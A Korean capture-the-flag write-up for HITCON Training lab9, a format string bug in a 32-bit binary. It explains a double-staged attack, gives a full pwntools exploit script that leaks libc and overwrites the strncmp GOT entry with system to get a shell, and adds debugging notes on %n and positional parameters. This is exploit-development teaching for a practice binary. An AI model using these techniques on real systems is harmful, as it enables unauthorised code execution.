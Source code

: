 ```yaml
---
layout: post
title: "[HITCON Training] lab9"
comments : true
category : War Game
---
```


# 문제
***

playfmt 바이너리의 checksec 결과는 다음과 같다.
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

file 명령어 결과는 다음과 같다.
```
playfmt: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=157fb5ec4301a1a1bddebb3c0f79c17305c57693, not stripped
```

취약점이 존재하는 함수

```
int do_fmt()
{
  int result; // eax

  while ( 1 )
  {
    read(0, buf, 0xC8u);
    result = strncmp(buf, "quit", 4u);
    if ( !result )
      break;
    printf(buf);
  }
  return result;
}
```

printf(buf)에 format string bug가 존재한다. 하지만 buf가 stack이 아닌 bss 영역에 위치하고 있다. 따라서 lab7, lab8 처럼 내가 write하고 싶은 영역의 주소를 buf에 넣어도 해당 주소를 참조할 수 없다.

=> double staged format string attack을 이용해야 한다.
#### 1. first stage
스택에 있는 포인터 (스택 내의 주소를 가리키는 포인터)를 이용해서 해당 주소에 내가 덮어쓰고자 하는 주소를 write한다. 

#### 2. second stage 
first stage에서 write한 주소 (스택에 존재)를 참조해서 그 주소에 내가 원하는 값을 덮어쓴다.

## exploit 방법
1. do_fmt 함수를 호출하기 전에 setvbuf를 호출하는데 이 때 인자로 들어간 stdout의 주소가 스택에 존재한다. 이 값을 출력함으로써 libc의 base_addr을 leak할 수 있다. (stdout의 offset은 readelf -s libc를 통해서 찾을 수 있다. 또는 gdb에서 x/a &stdout을 통해서 나온 주소에서 libc_base를 빼면 된다.)

이를 통해 system 함수의 주소를 알 수 있다.

2. 스택에 있는 포인터를 이용해서 스택에 strncmp_got 주소, strncmp_got 주소 +2 값을 write한다. (system 함수의 주소가 0xf7로 시작하기 때문에 %hn을 통해 overwrite하려고 한다.)

3. 2번에서 스택에 write한 주소를 참조해서 strncmp_got 영역에 system의 주소를 overwrite한다. 

4. read 함수에서 buf에 "bin/sh\x00"을 넣어주면 shell을 얻을 수 있다. 

c.f) 이 문제는 esp 값을 잘 조절해줘서 printf를 호출할 때 마다 esp 값이 고정되어 있다. => 이거 원래 모든 바이너리에서 다 스택 정리를 이렇게 해주나? 

그리고 이 문제에서 buf(같은 영역에)에 계속 write를 해주기 때문에 이전에 보낸 문자열 보다 그 다음에 보낸 문자열이 더 짧으면 이전에 보낸 문자열까지 같이 printf한다. 그러면 %n이 이상한 곳을 참조해서 error가 발생하여 프로세스가 종료될 수도 있다.


# 풀이
***
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/HITCON-Training/LAB/lab9/playfmt"

p=process(file_path)
libc=ELF("/lib/i386-linux-gnu/libc.so.6")

strcmp_got=0x804a020

p.recvuntil("=\n")
p.recvuntil("=\n")


pay="%8$x" # stdout leak
pay+="%"+str(strcmp_got-8)+"d"+"%6$n"
pay+="%c"*2+"%13$n"+"end"

p.send(pay)

IO_stdout=int(p.recv(8),16)
libc_base=IO_stdout-0x001b2d60
system=libc_base+libc.symbols['system']

time.sleep(20)
p.recvuntil("end")

system=hex(system)
system_high=int(system[2:6],16)
system_low=int(system[6:],16)

pay2="%08x"*8+"%"+str(system_low-64)+"d"+"%hn"+"%08x"*8+"%"+str(system_high-system_low-64)+"d"+"%hn"+"end"

p.send(pay2)

time.sleep(20)
p.recvuntil("end")

p.send("/bin/sh\x00")

p.interactive()
```


# 알게 된 것
***

#### 1. 혁쓰 추측 : 로컬에서 format string bug를 exploit 할 때 해당 프로세스 (pwntools의 process로 실행시킨 것)를 gdb에 attach하고 디버깅 하는 경우 printf를 통해 매우 많은 양을 출력하면 이걸 읽어줘야 프로세스가 멈추지 않고 제대로 실행된다. 출력을 읽어주지 않으니까 출력을 계속 하다가 출력 버퍼가 꽉 차서 더 출력을 하지 못하고 대기하고 있는듯... 

근데 이상한게 gdb에 프로세스를 attach하지 않고 그냥 처음부터 gdb로 프로그램을 디버깅 할 때는 출력을 읽어주지 않아도 프로세스가 멈추지 않고 실행된다. 
=> pwntools의 process 함수가 만든 통신은 출력이 매우 큰 경우에는 출력 버퍼에 있는 것을 읽어들였는지 안 읽어들였는지를 신경 쓰는듯?

이걸 처리하기 위해서 payload 마지막에 "EEEEE" 같은 특정 문자열을 넣어준다. 그 다음 time.sleep(30)을 통해서 해당 문자열이 다 출력될 때 까지 기다린 뒤 recvuntil("EEEEE")를 이용해서 출력한 것을 다 받아준다. recvuntil이 계속 데이터를 축적시키고 있는 놈이라 터질 수도 있기 때문에 아래 코드를 이용하는게 더 좋을 것 같다. 

```
While 'E' not in p.recv(0x1000):
    pass
```
리모트의 경우는 send를 하고 나면 이것에 대해서 따로 신경을 쓰지 않기 때문에 이러한 문제가 발생하지 않는다. 


#### 2. %n은 지금까지 출력한 문자열의 개수를 write하는 것이 아니라 %n이 들어간 printf 내에서 출력한 문자열의 총 개수를 write한다. 

```
printf(“%10c%n”, 1, &count);
printf(“%20c%n”, 1, &count2);
count1 = 10
count2 = 20 
```


#### 3. double staged format string attack의 second stage에서 $플래그를 통해 parameter를 참조할 때 수정된 값을 참조하지 못한다. 즉, second stage에서 %10$n으로 내가 수정한 주소에 overwrite를 하려고 하면 수정한 주소를 참조하는 것이 아니라 수정되기 전에 해당 위치에 있던 값을 참조하여 overwrite를 하게 된다. 

$flag는 $flag로 지정한 포맷 스트링의 값을 미리 가져와 놓고 사용하기 때문에 수정한 값을 가져오지 못하고 수정하기 전의 값을 참조하게 된다.

근데 또 이상한게 제일 마지막에 1개 쓰는 것은 수정한 값을 참조한다. 즉, second stage에서 payload를 %d %s %d %10$n으로 하면 이 때는 수정한 값을 참조한단다...

c.f) send()는 문자열 마지막에 NULL을 추가하지 않는다. (sendline은 "\x0a"를 추가한다.) 


